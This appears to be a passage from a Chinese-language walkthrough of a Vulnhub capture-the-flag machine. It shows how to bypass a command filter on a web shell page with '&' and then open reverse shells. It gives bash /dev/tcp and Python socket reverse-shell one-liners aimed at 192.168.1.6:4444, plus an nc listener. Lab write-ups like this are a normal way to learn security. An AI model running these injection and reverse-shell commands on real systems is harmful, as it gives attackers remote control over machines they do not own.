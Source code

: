 看起来毫无头绪，但当你重新访问原来提示你需要认证的`/dev/shell`界面时

它已悄然发生了变化

![][17]

根据页面提示，我们只能执行它列出来的几个命令

但是我们可以使用&将多个命令进行拼接，那么就可以绕过限制

接下来我们现在`kali`上监听，然后尝试几种常用的`shell`反弹方式

```
nc -lvp 4444
```

1.使用`bash`反弹

```
pwd&bash -i >& /dev/tcp/192.168.1.6/4444 0>&1
```

> bash -i 表示产生一个 bash 的交互环境
> 0>&1 将标准输入域标准输出内容相结合，然后重定向给前面的标准输出内容

实测没有反弹成功

2.使用`python`反弹

尝试使用一句话`python`弹`shell`：

```
pwd&python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

提示如下：

![][18]

> INVALID COMMAND. I CAUGHT YOU HACKER! ';' CAN BE USED TO EXECUTE MULTIPLE COMMANDS!!

`;`被过滤了，不能直接在交互的地方执行命令，那我们就把它放在脚本里

```
python -c "import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.1.6",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);"
```

存为`python-shell.py`，移入`apache2`默认目录`/var/www/html`

开启`apache2`服务:`service apache2 start`

![][19]


[1]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200117_212057.png
[2]: https://soapffz.com/427.html
[3]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200117_212057.png
[4]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200117_212957.png
[5]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200117_215229.png
[6]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_100320.png
[7]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_101020.png
[8]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_101602.png
[9]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_101659.png
[10]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_101842.png
[11]: https://www.cmd5.com/
[12]: https://www.somd5.com/
[13]: https://hashkiller.co.uk/
[14]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_103812.png
[15]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_103022.png
[16]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_104020.png
[17]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_104206.png
[18]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_105200.png
[19]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_110707.png
[20]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_111349.png
[21]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_112502.png
[22]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_113108.png
[23]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_113331.png
[24]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_115041.png
[25]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_115421.png
[26]: https://pavornoc.wordpress.com/2017/12/14/vulnhub-bulldog-walkthrough/
[27]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ